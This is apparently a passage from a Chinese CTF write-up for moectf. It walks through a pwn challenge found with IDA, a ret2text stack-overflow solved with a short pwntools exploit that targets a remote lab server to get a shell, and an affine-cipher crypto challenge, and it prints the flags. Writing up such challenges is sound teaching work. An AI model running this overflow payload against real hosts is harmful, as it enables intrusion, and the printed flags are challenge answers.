 ![image-20220827114605093](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208271146142.png?x-oss-process=hzy)



ida看主体逻辑

![image-20220827114657137](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208271146202.png?x-oss-process=hzy)

我看到了/bin/sh，哦吼吼，同时可以看到他的这个问题的数字都是随机生成的，问题不大，只要correctt了，就会执行system

## ret2text

checksec  64位

![image-20220920142837389](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209201428470.png?x-oss-process=hzy)

main函数如下

![image-20220920143013539](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209201430612.png?x-oss-process=hzy)

![image-20220920143049521](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209201430593.png?x-oss-process=hzy)

shell地址是0x14BA，exp如下

```
from pwn import *

#p=process('./pwn')
p=remote('124.223.158.81',27002)
payload = b'a'*72 + p64(0x4014C2)  
p.sendline(payload)
p.interactive()
```

![image-20220920143150318](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209201431376.png?x-oss-process=hzy)

moectf{h3y_y0u_kn0w_wh47_15_574ck_0v32_f10w}

# 现代密码学

## 密码学之入门指北

题目如下

![image-20220827112953173](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208271129258.png?x-oss-process=hzy)

脚本如下：

```
# solution1 for ex1
from Crypto.Util.number import long_to_bytes,inverse

def dec(c):#不用搜索！解一个二元方程组即可
    a=inverse((ord('c')-ord('t')),256)*(c[3]-c[4])%256
    b=(c[0]-ord('m')*a)%256
    print("a=",a,"b=",b)
    print(bytes(list(map(lambda x:(x-b)*inverse(a,256)%256,c))))
    return
    
c=long_to_bytes(23904604480218951222924468885892706253385766083586197703800132687872601727899557854623831975886365472122)

dec(c)  // a= 13 b= 33  b'moectf{Welc0me_t0_fascinating_crypto_w0rld}'
```

